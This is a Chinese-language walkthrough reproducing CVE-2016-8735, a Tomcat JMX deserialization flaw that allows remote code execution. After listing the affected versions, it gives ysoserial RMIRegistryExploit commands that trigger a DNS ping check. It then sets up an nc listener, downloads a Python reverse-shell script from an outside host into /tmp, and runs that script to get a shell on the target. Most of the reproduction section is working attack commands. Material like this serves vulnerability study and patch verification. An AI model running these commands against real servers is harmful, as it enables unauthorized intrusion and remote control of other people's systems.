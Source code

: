# CVE-2016-8735 Tomcat 反序列化漏洞

### 一、漏洞简介

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

### 二、漏洞影响

* ApacheTomcat 9.0.0.M1 到9.0.0.M11
* ApacheTomcat 8.5.0 到8.5.6
* ApacheTomcat 8.0.0.RC1 到8.0.38
* ApacheTomcat 7.0.0 到7.0.72
* ApacheTomcat 6.0.0 到6.0.47

### 三、复现过程

漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

构造命令

Win ping一次命令：


```bash
ping -n 1 qjkpla.ceye.io
```


Linux ping 一次命令：


```bash
ping -c 1 qjkpla.ceye.io
```

利用Ceye回显看是否存在漏洞:


```bash
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"
```

![](images/15893697906994.png)


DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![](images/15893697967464.png)


直接NC监听服务：


```bash
nc -l -vv 12555
```

![](images/15893698070449.png)


然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)


```bash
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"
```

执行完此命令继续构造命令，去执行刚在wget的脚本


```bash
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"
```

![](images/15893698290579.png)


成功反弹：

![](images/15893698347571.png)


![](images/15893698384164.png)


